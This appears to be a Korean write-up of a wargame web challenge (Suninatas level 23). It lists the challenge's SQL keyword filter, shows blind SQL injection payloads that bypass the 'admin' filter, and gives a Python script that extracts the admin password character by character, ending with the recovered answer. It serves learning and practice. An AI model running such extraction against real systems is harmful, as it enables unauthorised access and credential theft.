 level 22와 동일한 문제

<br>

+ Filtering keyword
  + admin/ select / Union / by / having / substring

  + from / char / delay / 0x / hex / asc / desc ..........

```<!-- Hint 2 : Bypass 'admin' string -->```

<br>


하다가 필터링 걸리지 않았는데 no hack 떠서 보니 길이 제한있음.

```id=adm'%2b'in' and len(pw)>1-- &pw=1``` -> ok admin

```id=adm'%2b'in' and left(pw,1)='v'--&pw=1``` -> ok admin

<br>

left를 2로 해주면 no hack -> 길이 제한때문에 안됌.

우리는 첫 글자가 v라는 사실을 알고 있으므로 admin pw를 뽑을 수 있음.

처음엔 left로만 하다가 10글자까지 뽑아오니 길이제한 때문에 안됐음. 절반씩 뽑아서 붙이는 형태로 코드를 수정시켰음.

<br>

```python
import requests

url='http://suninatas.com/challenge/web23/web23.asp'
headers={'Content-Type':'application/x-www-form-urlencoded'}
cookies={'ASPSESSIONIDQCDTTBSB':'[redacted]'}

pw_left='V'
pw_right=''
for i in range(2,7):
    for j in range(32,127) :
        payload={
        'id':"' or left(pw,"+str(i)+")='"+pw_left+chr(j)+"'--", 
        'pw':'1'
        }
        res=requests.get(url, params=payload, headers=headers, cookies=cookies)
        if "<b>OK" in res.text :
            pw_left+=chr(j)
            print("Password_left {}th: {}".format(i,pw_left))
            break

for i in range(1,7):
    for j in range(32,127) :
        payload={
        'id':"' or right(pw,"+str(i)+")='"+chr(j)+pw_right+"'--", 
        'pw':'1'
        }
        res=requests.get(url, params=payload, headers=headers, cookies=cookies)
        if "<b>OK" in res.text :
            pw_right=chr(j)+pw_right
            print("Password_right {}th: {}".format(13-i,pw_right))
            break      
            
print("Password : {}".format(pw_left+pw_right)) # V3RYHARDSQLI 
```
